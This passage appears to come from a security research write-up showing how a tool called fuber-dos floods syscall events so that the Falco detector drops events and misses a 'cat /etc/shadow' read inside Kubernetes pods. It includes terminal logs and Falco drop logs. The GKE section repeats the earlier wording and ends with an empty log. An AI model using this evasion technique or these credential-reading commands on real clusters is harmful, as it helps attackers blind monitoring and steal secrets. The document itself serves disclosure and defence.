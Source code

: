 ### On a pod within a local cluster ran by Minicube
When running the utility on a pod within the Minicube cluster, 200K fake events seem to be enough to cause Falco to consistently drop events and bypass detection on an irregular basis. Out of 10 tries, 9 of them detected "Sensitive file opened" successfully:
```
[Pod]
minikube version
minikube version: v1.13.0
commit: 0c5e9de4ca6f9c55147ae7f90af97eff5befef5f-dirty
$ kubectl get pods
NAME                           READY   STATUS    RESTARTS   AGE
falco-nqwnv                    1/1     Running   0          9m50s
frontend-5fd859dcf6-7ptkt      1/1     Running   2          23d
frontend-5fd859dcf6-qxd5q      1/1     Running   2          23d
frontend-5fd859dcf6-x5nj6      1/1     Running   2          23d
redis-master-f46ff57fd-85ptf   1/1     Running   2          23d
redis-slave-597454578-hvtsr    1/1     Running   2          23d
redis-slave-597454578-wnj6f    1/1     Running   2          23d
$ kubectl exec -it frontend-5fd859dcf6-7ptkt bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@frontend-5fd859dcf6-7ptkt:/var/www/html# cd /tmp
root@frontend-5fd859dcf6-7ptkt:/tmp# ./fuber-dos 100000 "cat /etc/shadow"
OUTPUT: root:*:16895:0:99999:7:::
-----
[Falco]
17:52:02.514419393: Warning Sensitive file opened for reading by non-trusted program (user=root user_loginuid=-1 program=cat command=cat /etc/shadow file=/etc/shadow parent=sh gparent=fuber-dos ggparent=bash gggparent=<NA> container_id=9eec5c06b381 image=gcr.io/google-samples/gb-frontend) k8s.ns=default k8s.pod=frontend-5fd859dcf6-7ptkt container=9eec5c06b381 k8s.ns=default k8s.pod=frontend-5fd859dcf6-7ptkt container=9eec5c06b381
17:52:03.324391470: Debug Falco internal: syscall event drop. 271083 system calls dropped in last second. (ebpf_enabled=0 n_drops=271083 n_drops_buffer=271083 n_drops_bug=0 n_drops_pf=0 n_evts=593579)
-----
[Pod]
root@frontend-5fd859dcf6-7ptkt:/tmp# ./fuber-dos 200000 "cat /etc/shadow"
OUTPUT: root:*:16895:0:99999:7:::
-----
[Falco]
17:52:34.490040628: Debug Falco internal: syscall event drop. 251402 system calls dropped in last second. (ebpf_enabled=0 n_drops=251402 n_drops_buffer=251402 n_drops_bug=0 n_drops_pf=0 n_evts=663604)
17:52:35.522799637: Debug Falco internal: syscall event drop. 461811 system calls dropped in last second. (ebpf_enabled=0 n_drops=461811 n_drops_buffer=461811 n_drops_bug=0 n_drops_pf=0 n_evts=951413)
```
### On GKE managed cluster
When running the utility on a GKE managed cluster, 200K fake events seem to be enough to cause Falco to consistently drop events and bypass detection on an irregular basis. Out of 10 tries, 9 of them detected "Sensitive file opened" successfully:
```
[Pod]
dashboard@dashboard-759c6f5d84-njd78:/tmp$ ./fuber-dos 100000 'kubectl get pods'
OUTPUT: NAME                         READY   STATUS    RESTARTS   AGE
OUTPUT: app-684574fb99-5gvwj         1/1     Running   0          7d9h
OUTPUT: dashboard-759c6f5d84-njd78   2/2     Running   0          7d9h
OUTPUT: db-6cdcb49cc6-zlzr5          1/1     Running   0          7d9h
-----
[Falco]
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS